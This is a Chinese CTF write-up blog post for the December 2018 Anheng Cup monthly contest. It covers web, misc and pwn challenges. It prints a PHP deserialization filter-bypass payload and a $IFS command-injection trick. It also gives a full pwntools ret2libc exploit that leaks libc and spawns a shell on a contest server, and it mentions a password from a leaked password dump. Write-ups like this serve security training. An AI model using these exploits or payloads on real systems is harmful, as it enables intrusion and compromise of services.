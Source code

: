 ```yaml
---
layout: post
title: 2018年安恒杯12月月赛writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
  - pwn
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web

### ezweb（100分）:
一个网站，网站首页抓包在cookie里有一个user参数，解码发现时user，改成admin重新提交后跳转到admin.php。（ps:扫目录扫出admin.php，直接在admin.php改user参数没用，必须要从index跳转，很坑。。。）
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-2.png)
之后是一个框，可以直接命令执行，空格被过滤，用$IFS绕过即可，flag在系统根目录。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-3.png)

### web2（200分）

源码已经给了，就是一个反序列化，正则是要求`o:`后面不能接数字，后面加一个加号可以绕过，注意提交的时候加号要url编码，不然会被当成空格。
payload:`O:+4:"baby":1:{s:4:"file";s:8:"flag.php";}`
```
 <?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    public $file;
    function __toString()      
    {          
        if(isset($this->file)) 
        {
            $filename = "./{$this->file}";        
            if (file_get_contents($filename))         
            {              
                return file_get_contents($filename); 
            } 
        }     
    }  
}  
if (isset($_GET['data']))  
{ 
    $data = $_GET['data'];
    preg_match('/[oc]:\d+:/i',$data,$matches);
    if(count($matches))
    {
        die('Hacker!');
    }
    else
    {
        $good = unserialize($data);
        echo $good;
    }     
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?> 
```

##misc

### misc1(100分）
一个压缩包，密码提示如下，到最后都没人做出来，后来又放了提示`解压密码不是时间；8进制`比赛结束有人给出了密码`!(()!@)6125dou `，是csdn泄漏的密码库里没有重复的密码。。。这脑洞。后面也没做
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-2.jpeg)

### misc2(100分）
签到题，关注公众号，什么牛不会跑，答案是蜗牛
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc2-1.jpeg)

### misc3(100分)
给了一个加密的压缩包，一个txt，压缩包里也有这个txt，比较一下crc发现一样，明文爆破就行了。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-1.png)
然后是一个docx文件，后缀名改成zip解压，`word\document.xml`里有一串md5，就是flag
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-2.png)
### misc4(100分)
一张png，我的mac下打不开，但是windows下能正常打开，说明图片高度有问题（mac大法好）。把高度和长度改成一样的，出现一段编码，因为末尾超过了两个==，猜测是base32，最后面再加上一个=base32解码即可。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc4-1.png)

## pwn

### pwn1(100分)
很简单的栈溢出，120个字符溢出，开了nx保护，不能写shellcode，可以ret2libc。
```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"
context.binary = './messageb0x'
elf=ELF('./messageb0x')
# io=process("./messageb0x")
# io=gdb.debug("./messageb0x")
io=remote('101.71.29.5',10009)


putsplt=elf.plt['puts']
putsgot=elf.got['puts']
mainaddr=elf.symbols['process_info']
io.sendafter('are:\n','a\n')
io.sendafter('address:\n','b\n') 

payload="A"*92+p32(putsplt)+p32(mainaddr)+p32(putsgot)
io.sendlineafter('say:\n',payload)
# print io.recvuntil('Thank you !\n')[0:4]
io.recvuntil('Thank you !\n')
putaddr=u32(io.recv()[0:4])

print hex(putaddr)

obj = LibcSearcher("puts", putaddr)
libcbase=putaddr-obj.dump("puts")
systemaddr=libcbase+obj.dump("system")
straddr=libcbase+obj.dump("str_bin_sh")

io.send('a\n') 
io.sendafter('address:\n','b\n')
payload="A"*92+p32(systemaddr)+p32(mainaddr)+p32(straddr)
io.sendlineafter('say:\n',payload)
io.interactive()
```

[1]: https://www.linkedbyx.com/home